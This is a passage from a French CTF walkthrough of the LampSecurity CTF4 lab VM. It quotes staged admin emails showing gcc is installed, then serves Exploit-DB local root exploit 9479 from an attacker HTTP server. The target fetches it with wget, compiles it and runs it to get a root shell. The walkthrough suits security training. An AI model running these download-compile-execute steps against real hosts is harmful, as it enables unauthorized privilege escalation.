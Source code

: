 ```
Date: Mon, 9 Mar 2009 10:52:25 -0400 (EDT)
Subject: Server setup
From: "Don Stevens" <dstevens@ctf4.sas.upenn.edu>
To: users@ctf4.sas.upenn.edu

Hello all,

the server is up and running now and should be able to support most of
our needs.  Don and I are still working on installing a few more patches
and configuring things.  Let us know if you have any problems.  Thanks!

-- 
Don Stevens
Sr. Unix Admin
Prof. Ehks Data Research Center
```

Troisième mail : pour mettre en place [la sonde HIDS](https://fr.wikipedia.org/wiki/Syst%C3%A8me_de_d%C3%A9tection_d%27intrusion) [OSSEC](https://ossec.github.io/),
Andrew Chen a également dû installer [gcc](https://gcc.gnu.org/) et [binutils](https://www.gnu.org/software/binutils/). Un compilateur est donc installé sur le serveur,
c'est parfait !

```
Date: Mon, 9 Mar 2009 11:47:41 -0400 (EDT)
Subject: OSSEC
From: "Andrew Chen" <achen@ctf4.sas.upenn.edu>
To: admins@ctf4.sas.upenn.edu

I'm installing OSSEC v2 on the server - so I also had to install gcc and
binutils.  Just wanted to let you know.

-- 
Andrew Chen
Unix Administrator
Ehks Data Research Center
```

### Bonus n°4 : Utilisation d'un _Local Root Exploit_

Hop, un petit serveur Web pour mettre à disposition de la VM LampSecurity [cet exploit](https://www.exploit-db.com/exploits/9479/) disponible également sur Kali.

```console
root@blinils:~# cp /usr/share/exploitdb/exploits/linux/local/9479.c 9479.c
root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Pendant ce temps, l'exploit est compilé avec gcc puis exécuté, et tadaaam... root !

Une conclusion idéale pour ce _walkthrough_ sur le quatrième épisode de la saga LampSecurity.

```console
[sorzek@ctf4 ~]$ wget http://192.168.56.102:8000/9479.c -q
[sorzek@ctf4 ~]$ gcc 9479.c -o 9479
9479.c:130:28: warning: no newline at end of file
[sorzek@ctf4 ~]$ ./9479
sh-3.1# id
uid=0(root) gid=0(root) groups=100(users),504(sorzek) context=user_u:system_r:unconfined_t
```
